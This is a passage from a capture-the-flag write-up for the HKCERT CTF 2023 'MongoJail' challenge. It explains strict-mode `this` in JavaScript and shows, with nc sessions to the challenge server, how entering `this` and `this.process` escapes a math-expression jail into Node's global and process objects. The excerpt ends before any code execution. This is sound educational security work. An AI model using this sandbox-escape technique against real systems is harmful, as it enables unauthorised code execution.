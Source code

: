 So `this` keyword is just referencing an object. In our case, it's referencing to the `global` object.

But hold up, it's different in strict mode:

> The value passed as `this` to a function in strict mode is not forced into being an object (a.k.a. "boxed"). For a sloppy mode function, `this` is always an object: either the provided object, if called with an object-valued `this`; or the boxed value of `this`, if called with a primitive as `this`; or the global object, if called with `undefined` or `null` as `this`. (Use [`call`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/call), [`apply`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/apply), or [`bind`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/bind) to specify a particular `this`.) Not only is automatic boxing a performance cost, but exposing the global object in browsers is a security hazard because the global object provides access to functionality that "secure" JavaScript environments must restrict. Thus for a strict mode function, the specified `this` is not boxed into an object, and if unspecified, `this` is `undefined` instead of [`globalThis`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/globalThis) (from [https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Strict_mode](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Strict_mode))

**TL;DR: if `this` is used in strict mode, it should just return `undefined` instead of `globalThis` (non-strict mode `this`).**

Luckily, **the challenge didn't filter strict mode `this` keyword.**

## Exploitation

**With that said, we can use the `this` keyword to get the `global` object:**
```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/pwn/MongoJail)-[2023.11.12|22:04:56(HKT)]
└> nc chal.hkcert23.pwnable.hk 28225
Enter math expression:
this
{
  global: <ref *1> {
    global: [Circular *1],
    clearImmediate: [Function: clearImmediate],
    setImmediate: [Function: setImmediate] {
      [Symbol(nodejs.util.promisify.custom)]: [Getter]
    },
    clearInterval: [Function: clearInterval],
[...]
```

**Then, in the `global` object, we can get the `process` object, which is the current process (mongosh) object:**
```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/pwn/MongoJail)-[2023.11.12|22:09:57(HKT)]
└> nc chal.hkcert23.pwnable.hk 28225
Enter math expression:
this.process
process {
  version: 'v20.6.1',
  versions: {
    node: '20.6.1',
    acorn: '8.10.0',
[...]
```
